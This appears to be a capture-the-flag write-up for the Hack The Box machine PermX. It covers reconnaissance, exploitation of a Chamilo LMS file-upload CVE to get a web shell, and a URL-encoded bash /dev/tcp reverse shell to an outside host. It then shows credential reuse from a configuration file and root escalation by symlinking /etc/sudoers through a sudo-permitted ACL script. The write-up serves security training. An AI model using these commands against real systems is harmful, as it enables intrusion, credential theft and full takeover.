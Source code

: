 # TL;DR

1. Ran nmap scan and found that there are two ports open on port 80 and port 22
2. Added domain to /etc/hosts and navigated to the site on port 80
3. Saw it was a static site and started to bruteforce directories and subdomains
4. Found a subdomain called lms.permx.htb and navigated to it
5. Found it led to a login screen for an LMS called Chamilo
6. Tried default creds and did not get anything 
7. Looked up vulnerabilities for Chamilo and found a POC to get a web shell
8. Ran the exploit, got a web shell, and then got a reverse shell
9. Rummaged through files and found a configuration.php file which contained creds for the LMS database
10. Used those creds for the local 'mtz' user on ssh and obtained a user shell
11. Used 'sudo -l' command and found a file called 'acl.sh' in the opt directory
12. Saw that 'acl.sh' can change perms for any file within the /home/mtz directory
13. Created symbolic link to the sudoers file and run the acl.sh script to give mtz user access to write into the file
14. Wrote ```mtz ALL=(ALL:ALL) NOPASSWD: /bin/su``` in the sudoers file
15. Ran ```sudo su``` and got root

# Detailed Writeup

To start off the box, I had ran this nmap command: nmap -vv -sVC -p- --min-rate=10000 -oA nmap/permx 10.10.11.23

Which gave me the following results:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/nmap.png)

We can see that we have just two ports open: port 22 and port 80. Port 80 also shows the nmap is redirecting to http://permx.htb. I added this to ```/etc/hosts``` file and navigated to the site. 

During this time, I also looked into the vulnerabilities for the apache server version since it show up in the namap scan. I had found a vulnerability related to a HTTP smuggling request but I would need a form to start messing with something like that. That being said this is what the site looks like when you first navigate to it:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/homepage.png)

I tried looking around for a form. I tried the contact form, but that was not sending any requests back to the server. I kept clicking around but still couldn't find anything. 

With that tried, I had started to bruteforce directories and subdomains with fuff. 

After running through that, I had found a subdomain: ```http://lms.permx.htb``` which led to an LMS called Chamilo, which is an open source LMS:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/lms.png)

In this next part, I should have starting looking for a way to find the version of Chamilo. But I went straight into finding a vulnerability which I do not advise. But I had gotten lucky and found a github page: ```https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS```, which had code that could scan if the given Chamilo site was vulnerable to the CVE. It was a somewhat recent CVE so I had assumed it would work and it did.

But the right way to go about this is to, again, try to identify the version of the LMS. This can be done if you bruteforce the directories where you would find a ```robots.txt``` file. There is a directory in it that has the documentation of the LMS which states which version it has. You would then go and lookup vulnerabilities for this version of Chamilo where you would find that github page. 

Here is the ```robots.txt``` and ```documentation directory``` respectively:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/robots.png)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/documentation.png)

But using that exploit from the github page, it gives you a link to the webshell on the server. I had give the webshell this reverse shell command url encoded: ```bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F9001%200%3E%261%27``` and used netcat to catch the shell. 

Here is the webshell page and catching the reverse shell respectively: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/webshell.png)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/reverseShell.png)

Now that we have the webshell let's look around for configuration files. Reason being that we are trying to look for passwords and possible usernames that have been left around. We can try to use these creds on services like on SSH to get user access. You can find the users that can have a shell on the box with this command: ```cat /etc/passwd | grep "sh$"```

I used the command and found an ```mtz``` user:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/foundUser.png)

Now let's try to find those passwords. I used this command to find files that have configuration in their name: ```find /var/www/ -type f -name "*.conf"```

I ended up finding this directory: ```/var/www/chamilo/app/config/configuration.php``` where is contained the password for the LMS database. 

I tried to to use this password with the mtz user with ssh on the server was able to get user:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX/user.png)

Once I got root I used the following command to see what files I could use without needing a password for sudo: ```sudo -l```

It show me a file directory: ```/opt/acl.sh```, which the code showed this:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```

The code itself checks for a designated file in the ```/home/mtz``` directory from an argument and changes the permissions of the file based off of arguments as well. This being case, I thought to try to create a symbolic link to the sudoers file using this command: ```ln -s /etc/sudoers ./sudoers.txt``` and then run the acl.sh script like such: ```/opt/acl.sh mtz rwx /home/mtz/sudoers.txt```

Once I did this I used vim to edit the sudoers file and added the following under the mtz user to able to switch to the root user:

```mtz ALL=(ALL:ALL) NOPASSWD: /bin/su```

After saving it I ran this command: ```sudo su``` and got root. 